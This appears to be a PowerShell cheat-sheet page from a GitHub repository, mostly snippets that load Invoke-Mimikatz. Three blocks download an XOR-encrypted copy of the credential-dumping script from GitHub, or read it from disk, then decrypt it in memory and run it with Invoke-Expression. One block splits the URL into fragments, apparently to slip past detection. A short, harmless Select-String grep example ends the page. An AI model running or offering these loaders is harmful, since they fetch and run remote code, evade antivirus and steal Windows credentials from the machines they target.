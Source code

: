 ### Decrypt and invoke Invoke-Mimikatz.ps1 in PowerShell
```powershell
$Bytes = (New-Object Net.WebClient).DownloadData('https://github.com/' + 'okazymyrov/piki' + '/blob/master/Invoke' + '-Mimi' + 'katz.ps1.encrypted?raw=true')
$Seed = 42 # seed between 0 and 2147483647

Get-Random -SetSeed $Seed -Maximum 255 -Minimum 0
for($i=0;$i -lt $Bytes.Length;$i++)
{
    $Bytes[$i] = $Bytes[$i] -bxor (Get-Random -Maximum 256 -Minimum 0)
}

Invoke-Expression $([System.Text.Encoding]::ASCII.GetString($Bytes))
```

### Decrypt and invoke Invoke-Mimikatz.ps1 in PowerShell
```powershell
$Bytes = (New-Object Net.WebClient).DownloadData('https://github.com/okazymyrov/piki/blob/master/Invoke-Mimikatz.ps1.encrypted?raw=true')
$Seed = 42 # seed between 0 and 2147483647

Get-Random -SetSeed $Seed -Maximum 255 -Minimum 0
for($i=0;$i -lt $Bytes.Length;$i++)
{
    $Bytes[$i] = $Bytes[$i] -bxor (Get-Random -Maximum 256 -Minimum 0)
}

Invoke-Expression $([System.Text.Encoding]::ASCII.GetString($Bytes))
```

### Decrypt and invoke Invoke-Mimikatz.ps1 from the disk
```powershell
$FileIn = "C:\Users\Administrator\Downloads\Invoke-Mimikatz.ps1.encrypted"
$Seed = 42 # seed between 0 and 2147483647

$Bytes = [io.file]::ReadAllBytes($FileIn) # Get-Content -Path $File -Encoding byte -Raw 

Get-Random -SetSeed $Seed -Maximum 255 -Minimum 0
for($i=0;$i -lt $Bytes.Length;$i++)
{
    $Bytes[$i] = $Bytes[$i] -bxor (Get-Random -Maximum 256 -Minimum 0)
}

Invoke-Expression $([System.Text.Encoding]::ASCII.GetString($Bytes))
```

# Grep in PowerShell 

## Log files in the current directory
```powershell
Select-String -Path "*.log" -Pattern "EMAIL_ADDRESS"
```
- [How to Use PowerShell Grep (Select-String)](https://adamtheautomator.com/powershell-grep/)
